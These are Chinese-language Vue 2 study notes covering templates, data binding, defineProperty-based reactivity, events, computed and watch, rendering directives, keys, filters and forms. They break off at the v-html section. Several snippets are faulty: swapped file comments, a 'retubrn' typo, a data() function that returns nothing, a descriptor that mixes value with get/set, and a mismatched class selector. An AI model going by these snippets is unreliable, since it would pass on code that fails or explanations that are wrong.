

## vue 项目结构

```html
project_name/
│
├───.vscode                 # vscode 配置插件
│    ├── extension.json
├─── public/                # 公共资源
│    └── favicon.ico        # 网站图标
│
├─── src/                   # 源代码
│    ├─── assets/           # 静态资源 (如图片、字体等)
│    ├─── components/       # 组件
│    ├─── views/            # 视图组件
│    ├─── router/           # 路由配置
│    ├─── store/            # 状态管理 (如Vuex)
│    ├─── services/         # 服务 (如API请求)
│    └─── utils/            # 工具函数或类
│
├─── env.d.ts/              # 让 ts 识别一些后缀文件
├─── index.html             # 入口文件
├─── node_modules/          # 依赖模块
├─── tsconfig.json          # Git 忽略文件配置
├─── .gitignore             # ts 的配置文件
├─── babel.config.js        # Babel 配置
├─── package.json           # 项目信息和依赖列表
├─── README.md              # 项目说明文档
└─── vite.config.js         # vite配置
<script>
//main.ts中的文件代码;
import "./assets/main.css";

import { createApp } from "vue"; //相当于在创建应用
import App from "./App.vue"; //相当于文件的根，之后写的其它.vue文件都是分支。

createApp(App).mount("#app"); //创建一个应用传入根文件为APP.vue。.mount就是用来挂在一个id为app的容器里
//也就是index.html的id为app的div块内。

```

## 初识 Vue

- 想让 vue 工作，必须创建一个 vue 实例并传入配置对象。
- 容器内的代码被称为 vue 模板

```html
<div id="root">// 使用vue语法进行动态生成内容 {{name}}</div>
//这里{{name}}使用了插值语法。{{}}就是起分隔符的效果。
<script src="/vue.js"></script>
//vue.js是开发版本包含一些警告和调试模式，vue.min.js是生产版本删除了警告。
<script type="text/javascript">
  vue.config.productionTip = false; //阻止vue在启动时生成生产提示。
  //创建vue实例
  new Vue({
    el: "#root",
    data: {
      name: "自定义",
    },
  });
</script>
```

- 1 个 vue 实例不能接管两个容器，默认会解析排在第一位的容器。
- 只要 data 中的数据发生改变，那么页面中用到该数据的地方也会自动更新。

:::note
vue 实例和容器是一一对应的关系，不能出现一个容器对应多个实例或者多个容器对应一个实例。
:::

```html
<div class="root">
  <h1>hello, {{name}}1</h1>
</div>
//只会显示hello，自定义1。第二个div容器不会解析所以显示hello, {{name}}2。
<div class="root">
  <h1>hello, {{name}}2</h1>
</div>
<script type="text/javascript">
  vue.config.productionTip = false; //阻止vue在启动时生成生产提示。
  //创建vue实例
  new Vue({
    el: "#root",
    data: {
      name: "自定义",
    },
  });
</script>
```

## vue2 语法

### vue 模板语法

1. **插值语法**

**用于解析标签体内容，写法：\{\{js 表达式}}，可以读取到 data 中的所有属性。**

2. **指令语法**

**用于解析标签(包括：标签属性、标签体内容、绑定事件.....)**

```html
<div id="root">
  //插值语法
  <p>{{ name }}</p>
  //指令语法
  <a v-bind:href="url">1</a>
  <a :href="url">1</a> //v-bind:href="xxx"简写形式直接加:。
</div>
```

### vue 数据绑定

1. **单向绑定(v-bind)**

**数据只能从 data 流向页面**

```html
<div id="root">
  <input type="text" :value="name" />
</div>
```

2. **双向绑定(v-model)**

**数据不仅能从 data 流向页面也可以从页面流向数据。<mark>v-model 一般用于表单元素。默认收集的就是 value 值所以:value 可省略</mark>**

```html
<div id="root">
  <input type="text" v-model="name" />
</div>
```

### 关于 vue 实例内部属性 el 和 data 的两种写法

```js
//el的两种写法
1. const app = new Vue({
    el: "#root",
    data: {
    name: "示例",
    },
  });
2. const app = new Vue({
    data: {
    name: "示例",
    },
  });
app.$mount("#root")
//data的两种写法,对于使用组件后必须使用函数式。

  const app = new Vue({
    //1. 对象式
    data: {
    name: "示例",
    },
    //2.函数式
    //vue会自动调用该函数并且函数内部的this指向vue实例
    data(){
      name:"示例"
    }
  });
```

### Object.defineProperty(obj, prop, descriptor)

- **顾名思义在对象上定义属性，和原有字面量定义属性的区别如下**

```js
let number = 18;
let person = {
  name: "lili",
  sex:"男"，
  age:number
};
//正常情况下，number和person.age没有联系，即使给person的age赋值为number，修改number以后person.age也只是当初定义好number的值。
//Object.defineProperty可以使两者产生联系。
Object.defineProperty(person,'age',{
    value:18, //在此方法定义的对象属性默认不可枚举（遍历）即遍历对象的键获取不到age。
    enumerable:true,//控制属性是否可以枚举，默认值false
    writable:true,//控制属性是否可以被修改，默认值false
    configurable:true //控制属性是否可以被删除，默认值false
    //当访问person的age属性，get(getter)函数就会被调用，且返回值就是age的值。
    //如果描述符同时具有 [value 或 writable] 和 [get 或 set] 键，则会抛出异常。所以只能用其中的一组。
    get () {
        return number
    },
    //当修改person的age属性，set(setter)函数就会被调用，且可以接收到修改值传给参数value。
    set (value) {
        number = value
    }
})
```

- **数据代理的相关概念**

**通过一个对象代理另一个对象中属性的操作（读/写）**

```js
let obj = { x: 100 };
let obj2 = { y: 200 };
//通过obj2访问和修改obj中的属性，就需要用到代理
Object.defineProperty(obj2, "x", {
  get() {
    retubrn obj.x;
  },
  set(value) {
    obj.x = value;
  },
});
```

- **vue 中的数据代理**

**通过实例对象的\_data 来代理 data 对象中属性的操作(读/写)。data 里的属性一般放在实例对象的\_data 中。**</br>
**<mark>\_data 里的数据并非直接用 data 赋值而是做了一个数据劫持，确保数据做到响应式实时更新页面数据。如下：</mark>**

```js
// 定义一个对象
let obj = {
  name: "John",
  age: 30,
};
// 将对象转换为响应式对象
function observe(obj) {
  // 遍历对象的每个属性
  Object.keys(obj).forEach((key) => {
    let internalValue = obj[key]; // 存储属性的值
    // 为每个属性定义 getter 和 setter
    Object.defineProperty(obj, key, {
      get() {
        console.log(`获取属性 ${key}: ${internalValue}`);
        return internalValue;
      },
      set(newValue) {
        console.log(`设置属性 ${key}: ${newValue}`);
        internalValue = newValue;
      },
    });
  });
}
// 使用 observe 函数将 obj 转换为响应式对象
observe(obj);
// 访问属性
console.log(obj.name); // 输出: "获取属性 name: John"
// 设置属性
obj.age = 35; // 输出: "设置属性 age: 35"
```

- **vue 中数据代理的好处：更加方便的操作 data 中的数据**
- **基本原理：**  
  **通过 Object.defineProperty()把 data 对象中所有属性添加到 vm 上。为每一个添加到实例对象上的属性，都指定一个 getter/setter。在 getter/setter 内部去操作（读/写）data 中对应的属性。**

### vue 事件处理

##### 事件的基本使用:

> - 使用 v-on:xxx 或者@xxx 绑定事件，>其中 xxx 是事件名。
> - 事件的回调需要配置在 methods 对象中，最终会在 vm 实>例对象上。
> - methods 中配置的函数，不要用箭头函数！否则 this 指>向就是 window。
> - methods 中配置的函数，都是被 vue 所管理的函数，this 的指向是 vm 或组件实例对象。
> - @click="demo"和@click="demo($event,a,b)"效果一样后者可以传多个参数并保留默认的 event 参数。

```html
<div id="root">
  <button v-on:click="showInfo">点击提示</button>
  <button @click="showInfo1">点击提示不传参数</button>
  <button @click="showInfo2($event,1)">点击提示传参数</button>
</div>
<script>
  new Vue({
    el: "#root",
    data: { name: "1" },
    methods: {
      showInfo1(e) {
        alert(1);
      },
      showInfo2(e, num) {
        alert(2);
      },
    },
  });
</script>
```

### vue 事件修饰符

> - prevent:阻止默认事件（常用）。函数内部写法 e.preventDefault()。
> - stop:阻止事件冒泡（常用）。函数内部写法 e.stopPropagation()。
> - once：事件只触发一次（常用）。
> - capture: 使用事件的捕获模式。
> - self: 只有 event.target 是当前操作的元素才触发事件。
> - passive：事件的默认行为立即执行，无需等待事件回调执行完毕。

```js
//这里prevent会默认阻止a标签跳转功能
<div id="root">
    <a href="www.baidu.com"@click.prevent="showinfo">点击提示信息</a>
</div>

// 使用事件的捕获模式
<div class="box1" @click.capture="showMsg(1)">
    div1
    <div class="box2" @click="showMsg(2)"></div>
</div>
//默认情况下事件在冒泡阶段处理，但可以设置其在捕获阶段就处理返回值为1，2。

//事件的默认行为立即执行，无需等待事件回调执行完毕
<ul @scroll="demo" class="list">
    <li>1</li>
    <li>2</li>
    <li>3</li>
    <li>4</li>
</ul>
//scroll事件是滚动条事件，只要滚动条动就会触发事件键盘的上下也可触发。wheel事件是滚轮事件，滚轮动就会一直触发。
new Vue({
    el: "#root",
    data: { name: "1" },
    methods: {
      showInfo1(e) {
        alert(1);
      },
    },
  });
```

### vue 键盘事件

1.Vue 中常用的按键别名：

    回车 => enter
    删除 => delete (捕获“删除”和“退格”键)
    退出 => esc
    空格 => space
    换行 => tab (特殊，必须配合keydown去使用)
    上 => up
    下 => down
    左 => left
    右 => right

2.Vue 未提供别名的按键，可以使用按键原始的 key 值去绑定，但注意要转为 kebab-case（短横线命名）  
3.系统修饰键（用法特殊）：ctrl、alt、shift、meta(win)

    配合 keyup 使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才被触发。
    配合 keydown 使用：正常触发事件。
    如果要使用组合按键则在 @keyup.ctrl.键名

4.也可以使用 keyCode 去指定具体的按键@keydown.键码（不推荐）  
5.Vue.config.keyCodes.自定义键名 = 键码，可以去定制按键别名

```js
// 准备好一个容器
	<div id="root">
		<h2>欢迎来到{{name}}学习</h2>
		<input type="text" placeholder="按下回车提示输入" @keydown.huiche="showInfo">
	</div>
```

### vue 计算属性 computed

1.定义：要用的属性不存在，要通过已有属性计算得来。  
2.原理：底层借助了 Objcet.defineproperty 方法提供的 getter 和 setter。  
3.get 函数什么时候执行?

    (1).初次读取时会执行一次。
    (2).当依赖的数据发生改变时会被再次调用。

4.优势：与 methods 实现相比，内部有缓存机制（复用），效率更高，调试方便。  
5.备注： 1.计算属性最终会出现在 vm 上，直接读取使用即可。 2.如果计算属性要被修改，那必须写 set 函数去响应修改，且 set 中要引起计算时依赖的数据发生改变。

```js
const vm = new Vue({
  el: "#root",
  data: {
    firstName: "张",
    lastName: "三",
    x: "你好",
  },
  methods: {
    demo() {},
  },
  computed: {
    fullName: {
      //get有什么作用？当有人读取fullName时，get就会被调用，且返回值就作为fullName的值
      //get什么时候调用？1.初次读取fullName时。2.所依赖的数据发生变化时。
      get() {
        console.log("get被调用了");
        // console.log(this) //此处的this是vm
        return this.firstName + "-" + this.lastName;
      },
      //set什么时候调用? 当fullName被修改时。
      set(value) {
        console.log("set", value);
        const arr = value.split("-");
        this.firstName = arr[0];
        this.lastName = arr[1];
      },
    },
    //只考虑读取不考虑修改才可用简写形式 function()就对应get（）函数
    fullName() {},
  },
});
```

### vue 监视属性 watch

1.当被监视的属性变化时, 回调函数自动调用, 进行相关操作

2.监视的属性必须存在，才能进行监视！！

3.监视的两种写法：

    (1).new Vue 时传入 watch 配置
    (2).通过 vm.$watch 监视

4.两种方法的区别

    如果在创建实例的时候就知道要监视的属性直接写到watch里，否则就写到$watch。

```js
const vm = new Vue({
  el: "#root",
  data: {
    isHot: true,
  },
  computed: {
    info() {
      return this.isHot ? "炎热" : "凉爽";
    },
  },
  methods: {
    changeWeather() {
      this.isHot = !this.isHot;
    },
  },
  /* watch:{
				isHot:{
					immediate:true, //初始化时让handler调用一下
					//handler什么时候调用？当isHot发生改变时。
					handler(newValue,oldValue){
						console.log('isHot被修改了',newValue,oldValue)
					}
				}
			} */
});
vm.$watch("isHot", {
  immediate: true, //初始化时让handler调用一下
  //handler什么时候调用？当isHot发生改变时。
  handler(newValue, oldValue) {
    console.log("isHot被修改了", newValue, oldValue);
  },
});
```

#### 深度监视

1.Vue 中的 watch 默认不监测对象内部值的改变（一层）。

2.配置 deep:true 可以监测对象内部值改变（多层）。

:::tip
1.Vue 自身可以监测对象内部值的改变，但 Vue 提供的 watch 默认不可以!  
2.使用 watch 时根据数据的具体结构，决定是否采用深度监视。
:::

```html
<div id="root">
  <h2>今天天气很{{info}}</h2>
  <button @click="changeWeather">切换天气</button>
  <hr />
  <h3>a的值是:{{numbers.a}}</h3>
  <button @click="numbers.a++">点我让a+1</button>
  <h3>b的值是:{{numbers.b}}</h3>
  <button @click="numbers.b++">点我让b+1</button>
  <button @click="numbers = {a:666,b:888}">彻底替换掉numbers</button>
  {{numbers.c.d.e}}
</div>
<script>
  const vm = new Vue({
    el: "#root",
    data: {
      isHot: true,
      numbers: {
        a: 1,
        b: 1,
        c: {
          d: {
            e: 100,
          },
        },
      },
    },
    watch: {
      //监视多级结构中某个属性的变化
      /* 'numbers.a':{
					handler(){
						console.log('a被改变了')
					}
				} */
      //监视多级结构中所有属性的变化
      numbers: {
        deep: true,
        handler() {
          console.log("numbers改变了");
        },
      },
    },
  });
  //简写形式
  watch: {
    //正常写法
    /* isHot:{
					// immediate:true, //初始化时让handler调用一下
					// deep:true,//深度监视
					handler(newValue,oldValue){
						console.log('isHot被修改了',newValue,oldValue)
					}
				}, */
    //简写
    /* isHot(newValue,oldValue){
					console.log('isHot被修改了',newValue,oldValue,this)
				} */
  }
  //$watch的简写形式
  vm.$watch("isHot", {
    immediate: true, //初始化时让handler调用一下
    deep: true, //深度监视
    handler(newValue, oldValue) {
      console.log("isHot被修改了", newValue, oldValue);
    },
  });
  //简写
  /* vm.$watch('isHot',(newValue,oldValue)=>{
			console.log('isHot被修改了',newValue,oldValue,this)
		}) */
</script>
```

### coumputer 和 watch 的区别

1.computed 能完成的功能，watch 都可以完成。

2.watch 能完成的功能，computed 不一定能完成，<mark>例如：watch 可以进行异步操作。</mark>

:::tip  
1.所被 Vue 管理的函数，最好写成普通函数，这样 this 的指向才是 vm 或 组件实例对象。  
2.所有不被 Vue 所管理的函数（定时器的回调函数、ajax 的回调函数等、Promise 的回调函数），最好写成箭头函数，这样 this 的指向才是 vm 或 组件实例对象。
:::

### vue class 样式绑定

:::note
不变的东西正常写，变化的东西都需要动态指定<mark>:符号</mark>体现动态。
:::
1.class 样式

    写法:class="xxx" xxx可以是字符串、对象、数组。
    字符串写法适用于：类名不确定，要动态获取。
    对象写法适用于：要绑定多个样式，个数不确定，名字也不确定。
    数组写法适用于：要绑定多个样式，个数确定，名字也确定，但不确定用不用。

2.style 样式

    :style="{fontSize: xxx}"其中 xxx 是动态值。
    :style="[a,b]"其中 a、b 是样式对象。

```html
<div id="root">
  <!-- 绑定class样式--字符串写法，适用于：样式的类名不确定，需要动态指定 -->
  <div class="basic" :class="mood" @click="changeMood">{{name}}</div>

  <!-- 绑定class样式--数组写法，适用于：要绑定的样式个数不确定、名字也不确定 -->
  <div class="basic" :class="classArr">{{name}}</div>

  <!-- 绑定class样式--对象写法，适用于：要绑定的样式个数确定、名字也确定，但要动态决定用不用 -->
  <div class="basic" :class="classObj">{{name}}</div>

  <!-- 绑定style样式--对象写法 -->
  <div class="basic" :style="styleObj">{{name}}</div>
  <!-- 绑定style样式--数组写法 -->
  <div class="basic" :style="styleArr">{{name}}</div>
</div>
<script type="text/javascript">
  Vue.config.productionTip = false;

  const vm = new Vue({
    el: "#root",
    data: {
      name: "1",
      mood: "normal",
      classArr: ["color1", "color2", "color3"],
      classObj: {
        color1: false,
        color2: false,
      },
      styleObj: {
        fontSize: "40px",
        color: "red",
      },
      styleObj2: {
        backgroundColor: "orange",
      },
      styleArr: [
        {
          fontSize: "40px",
          color: "blue",
        },
        {
          backgroundColor: "gray",
        },
      ],
    },
    methods: {
      changeMood() {
        const arr = ["happy", "sad", "normal"];
        const index = Math.floor(Math.random() * 3);
        this.mood = arr[index];
      },
    },
  });
</script>
```

### vue 条件渲染

1.**v-if**

    写法：
      (1).v-if="表达式"
      (2).v-else-if="表达式"
      (3).v-else="表达式"
    适用于：切换频率较低的场景。
    特点：不展示的DOM元素直接被移除。
    注意：v-if可以和:v-else-if、v-else一起使用，但要求结构不能被“打断”。

2.**v-show**

    写法：v-show="表达式"
    适用于：切换频率较高的场景。
    特点：不展示的DOM元素未被移除，仅仅是使用样式隐藏掉

3.备注：使用 v-if 的时，元素可能无法获取到，而使用 v-show 一定可以获取到。

```html
<div id="root">
  <h2>当前的n值是:{{n}}</h2>
  <button @click="n++">点我n+1</button>
  <!-- 使用v-show做条件渲染 -->
  <!-- <h2 v-show="false">欢迎来到{{name}}</h2> -->
  <!-- <h2 v-show="1 === 1">欢迎来到{{name}}</h2> -->

  <!-- 使用v-if做条件渲染 -->
  <!-- <h2 v-if="false">欢迎来到{{name}}</h2> -->
  <!-- <h2 v-if="1 === 1">欢迎来到{{name}}</h2> -->

  <!-- v-else和v-else-if -->
  <!-- <div v-if="n === 1">Angular</div>
			<div v-else-if="n === 2">React</div>
			<div v-else-if="n === 3">Vue</div>
			<div v-else>哈哈</div> -->

  <!-- v-if与template的配合使用,template不会影响html的结构即不会在外层包裹div框 -->
  <template v-if="n === 1">
    <h2>11</h2>
    <h2>22</h2>
    <h2>33</h2>
  </template>
</div>
```

### vue 列表渲染 v-for

v-for 指令:

    1.用于展示列表数据
    2.语法：v-for="(item, index) in xxx" :key="yyy"
    3.可遍历：数组、对象、字符串（用的很少）、指定次数（用的很少）

```html
<div id="root">
  <!-- 遍历数组 -->
  <h2>人员列表（遍历数组）</h2>
  <ul>
    <li v-for="(p,index) of persons" :key="index">{{p.name}}-{{p.age}}</li>
  </ul>

  <!-- 遍历对象 -->
  <h2>汽车信息（遍历对象）</h2>
  <ul>
    <li v-for="(value,k) of car" :key="k">{{k}}-{{value}}</li>
  </ul>

  <!-- 遍历字符串 -->
  <h2>测试遍历字符串（用得少）</h2>
  <ul>
    <li v-for="(char,index) of str" :key="index">{{char}}-{{index}}</li>
  </ul>

  <!-- 遍历指定次数 -->
  <h2>测试遍历指定次数（用得少）</h2>
  <ul>
    <li v-for="(number,index) of 5" :key="index">{{index}}-{{number}}</li>
  </ul>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false;

  new Vue({
    el: "#root",
    data: {
      persons: [
        { id: "001", name: "张三", age: 18 },
        { id: "002", name: "李四", age: 19 },
        { id: "003", name: "王五", age: 20 },
      ],
      car: {
        name: "奔驰大G",
        price: "200万",
        color: "黑色",
      },
      str: "hello",
    },
  });
</script>
```

### vue key 的作用

1.**react、vue 中的 key 有什么作用？（key 的内部原理） 1.虚拟 DOM 中 key 的作用：**

    key是虚拟DOM对象的标识，当数据发生变化时，Vue会根据【新数据】生成【新的虚拟DOM】,
    随后Vue进行【新虚拟DOM】与【旧虚拟DOM】的差异比较，比较规则如下：

2.**对比规则：**

    (1).旧虚拟DOM中找到了与新虚拟DOM相同的key：
    	①.若虚拟DOM中内容没变, 直接使用之前的真实DOM！
    	②.若虚拟DOM中内容变了, 则生成新的真实DOM，随后替换掉页面中之前的真实DOM。
    (2).旧虚拟DOM中未找到与新虚拟DOM相同的key
    	  创建新的真实DOM，随后渲染到到页面。

3.**用 index 作为 key 可能会引发的问题：**

    (1).若对数据进行：逆序添加、逆序删除等破坏顺序操作:
    	  会产生没有必要的真实DOM更新 ==> 界面效果没问题, 但效率低。
    (2).如果结构中还包含输入类的DOM：
    	  会产生错误DOM更新 ==> 界面有问题。

4.**开发中如何选择 key?:**

    (1).最好使用每条数据的唯一标识作为key, 比如id、手机号、身份证号、学号等唯一值。
    (2).如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，
        使用index作为key是没有问题的。

```html
<div id="root">
  <!-- 遍历数组 -->
  <h2>人员列表（遍历数组）</h2>
  <button @click.once="add">添加一个老刘</button>
  <ul>
    <li v-for="(p,index) of persons" :key="index">
      {{p.name}}-{{p.age}}
      <input type="text" />
    </li>
  </ul>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false;

  new Vue({
    el: "#root",
    data: {
      persons: [
        { id: "001", name: "张三", age: 18 },
        { id: "002", name: "李四", age: 19 },
        { id: "003", name: "王五", age: 20 },
      ],
    },
    methods: {
      add() {
        const p = { id: "004", name: "老刘", age: 40 };
        this.persons.unshift(p);
      },
    },
  });
</script>
```

### vue 列表过滤

**用到了 filter(callbackfn,thisaArg 可选) 函数，filter 函数会为数组中的每个元素调用提供的 callbackFn 函数一次，并构造一个由所有返回真值的元素值组成的新数组。**

```html
<div id="root">
  <h2>人员列表</h2>
  <input type="text" placeholder="请输入名字" v-model="keyWord" />
  <ul>
    <li v-for="(p,index) of filPerons" :key="index">
      {{p.name}}-{{p.age}}-{{p.sex}}
    </li>
  </ul>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false;

  //用watch实现
  //#region
  /* new Vue({
				el:'#root',
				data:{
					keyWord:'',
					persons:[
						{id:'001',name:'马冬梅',age:19,sex:'女'},
						{id:'002',name:'周冬雨',age:20,sex:'女'},
						{id:'003',name:'周杰伦',age:21,sex:'男'},
						{id:'004',name:'温兆伦',age:22,sex:'男'}
					],
					filPerons:[]
				},
				watch:{
					keyWord:{
						immediate:true,
						handler(val){
							this.filPerons = this.persons.filter((p)=>{
								return p.name.indexOf(val) !== -1
							})
						}
					}
				}
			}) */
  //#endregion

  //用computed实现
  new Vue({
    el: "#root",
    data: {
      keyWord: "",
      persons: [
        { id: "001", name: "马冬梅", age: 19, sex: "女" },
        { id: "002", name: "周冬雨", age: 20, sex: "女" },
        { id: "003", name: "周杰伦", age: 21, sex: "男" },
        { id: "004", name: "温兆伦", age: 22, sex: "男" },
      ],
    },
    computed: {
      filPerons() {
        return this.persons.filter((p) => {
          return p.name.indexOf(this.keyWord) !== -1;
        });
      },
    },
  });
</script>
```

### vue 数据监测

1.**vue 会监视 data 中所有层次的数据。**

2.**如何监测对象中的数据？**

    通过 setter 实现监视，且要在 new Vue 时就传入要监测的数据。
    (1).对象中后追加的属性，Vue 默认不做响应式处理
    (2).如需给后添加的属性做响应式，请使用如下 API：
      Vue.set(target，propertyName/index，value) 或
      vm.$set(target，propertyName/index，value)

3.**如何监测数组中的数据？**

    通过包裹数组更新元素的方法实现，本质就是做了两件事：
    (1).调用原生对应的方法对数组进行更新。
    (2).重新解析模板，进而更新页面。

4.**在 Vue 修改数组中的某个元素一定要用如下方法:**

    (1).使用这些API:push()、pop()、shift()、unshift()、splice()、sort()、reverse()
    (2).Vue.set() 或 vm.$set()

:::note
Vue.set() 和 vm.$set() 不能给 vm 或 vm 的根数据对象 添加属性！！！Vue 禁止这类操作会报错。
:::

```html
<div id="root">
			<h1>学生信息</h1>
			<button @click="student.age++">年龄+1岁</button> <br/>
			<button @click="addSex">添加性别属性，默认值：男</button> <br/>
			<button @click="student.sex = '未知' ">修改性别</button> <br/>
			<button @click="addFriend">在列表首位添加一个朋友</button> <br/>
			<button @click="updateFirstFriendName">修改第一个朋友的名字为：张三</button> <br/>
			<button @click="addHobby">添加一个爱好</button> <br/>
			<button @click="updateHobby">修改第一个爱好为：开车</button> <br/>
			<button @click="removeSmoke">过滤掉爱好中的抽烟</button> <br/>
			<h3>姓名：{{student.name}}</h3>
			<h3>年龄：{{student.age}}</h3>
			<h3 v-if="student.sex">性别：{{student.sex}}</h3>
			<h3>爱好：</h3>
			<ul>
				<li v-for="(h,index) in student.hobby" :key="index">
					{{h}}
				</li>
			</ul>
			<h3>朋友们：</h3>
			<ul>
				<li v-for="(f,index) in student.friends" :key="index">
					{{f.name}}--{{f.age}}
				</li>
			</ul>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		const vm = new Vue({
			el:'#root',
			data:{
				student:{
					name:'tom',
					age:18,
					hobby:['抽烟','喝酒','烫头'],
					friends:[
						{name:'jerry',age:35},
						{name:'tony',age:36}
					]
				}
			},
			methods: {
				addSex(){
					// Vue.set(this.student,'sex','男')
					this.$set(this.student,'sex','男')
				},
				addFriend(){
					this.student.friends.unshift({name:'jack',age:70})
				},
				updateFirstFriendName(){
					this.student.friends[0].name = '张三'
				},
				addHobby(){
					this.student.hobby.push('学习')
				},
				updateHobby(){
					// this.student.hobby.splice(0,1,'开车')
					// Vue.set(this.student.hobby,0,'开车')
					this.$set(this.student.hobby,0,'开车')
				},
				removeSmoke(){
					this.student.hobby = this.student.hobby.filter((h)=>{
						return h !== '抽烟'
					})
				}
			}
		})
	</script>
```

### vue 收集表单数据

```text
1.若：<input type="text"/>，则 v-model 收集的是 value 值，用户输入的就是 value 值。
2.若：<input type="radio"/>，则 v-model 收集的是 value 值，且要给标签配置 value 值。
3.若：<input type="checkbox"/>

1.没有配置 input 的 value 属性，那么收集的就是 checked(勾选 or 未勾选，是布尔值)
2.配置 input 的 value 属性:
  (1)v-model 的初始值是非数组，那么收集的就是 checked(勾选 or 未勾选，是布尔值)
  (2)v-model 的初始值是数组，那么收集的的就是 value 组成的数组

备注：v-model 的三个修饰符：
      lazy：失去焦点再收集数据
      number：输入字符串转为有效的数字
      trim：输入首尾空格过滤
```

```html
<div id="root">
			<form @submit.prevent="demo">
				账号：<input type="text" v-model.trim="userInfo.account"> <br/><br/>
				密码：<input type="password" v-model="userInfo.password"> <br/><br/>
				年龄：<input type="number" v-model.number="userInfo.age"> <br/><br/>
				性别：
				男<input type="radio" name="sex" v-model="userInfo.sex" value="male">
				女<input type="radio" name="sex" v-model="userInfo.sex" value="female"> <br/><br/>
				爱好：
				学习<input type="checkbox" v-model="userInfo.hobby" value="study">
				打游戏<input type="checkbox" v-model="userInfo.hobby" value="game">
				吃饭<input type="checkbox" v-model="userInfo.hobby" value="eat">
				<br/><br/>
				所属校区
				<select v-model="userInfo.city">
					<option value="">请选择校区</option>
					<option value="beijing">北京</option>
					<option value="shanghai">上海</option>
					<option value="shenzhen">深圳</option>
					<option value="wuhan">武汉</option>
				</select>
				<br/><br/>
				其他信息：
				<textarea v-model.lazy="userInfo.other"></textarea> <br/><br/>
				<input type="checkbox" v-model="userInfo.agree">阅读并接受<a href="#">《用户协议》</a>
				<button>提交</button>
			</form>
		</div>
	</body>
	<script type="text/javascript">
		Vue.config.productionTip = false
		new Vue({
			el:'#root',
			data:{
				userInfo:{
					account:'',
					password:'',
					age:18,
					sex:'female',
					hobby:[],
					city:'beijing',
					other:'',
					agree:''
				}
			},
			methods: {
				demo(){
					console.log(JSON.stringify(this.userInfo))
				}
			}
		})
	</script>
```

### vue 过滤器

```text
定义：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）。
语法：
  1.注册过滤器：Vue.filter(name,callback) 或 new Vue{filters:{}}
  2.使用过滤器：{{ xxx | 过滤器名}}  或  v-bind:属性 = "xxx | 过滤器名"
备注：
	1.过滤器也可以接收额外参数、多个过滤器也可以串联
	2.并没有改变原本的数据, 是产生新的对应的数据
```

```html
<div id="root">
  <h2>显示格式化后的时间</h2>
  <!-- 计算属性实现 -->
  <h3>现在是：{{fmtTime}}</h3>
  <!-- methods实现 -->
  <h3>现在是：{{getFmtTime()}}</h3>
  <!-- 过滤器实现 -->
  <h3>现在是：{{time | timeFormater}}</h3>
  <!-- 过滤器实现（传参） -->
  <h3>现在是：{{time | timeFormater('YYYY_MM_DD') | mySlice}}</h3>
  <h3 :x="msg | mySlice">11</h3>
</div>

<div id="root2">
  <h2>{{msg | mySlice}}</h2>
</div>
<script type="text/javascript">
  Vue.config.productionTip = false;
  //全局过滤器
  Vue.filter("mySlice", function (value) {
    return value.slice(0, 4);
  });
  new Vue({
    el: "#root",
    data: {
      time: 1621561377603, //时间戳
      msg: "11",
    },
    computed: {
      fmtTime() {
        return dayjs(this.time).format("YYYY年MM月DD日 HH:mm:ss");
      },
    },
    methods: {
      getFmtTime() {
        return dayjs(this.time).format("YYYY年MM月DD日 HH:mm:ss");
      },
    },
    //局部过滤器
    filters: {
      timeFormater(value, str = "YYYY年MM月DD日 HH:mm:ss") {
        // console.log('@',value)
        return dayjs(value).format(str);
      },
    },
  });
  new Vue({
    el: "#root2",
    data: {
      msg: "hello!",
    },
  });
</script>
```

## vue 指令

### vue v-html 指令

```text
1.作用：向指定节点中渲染包含 html 结构的内容。
2.与插值语法的区别：
  (1).v-html 会替换掉节点中所有的内容，{{xx}}则不会。
  (2).v-html 可以识别 html 结构。
```

:::note
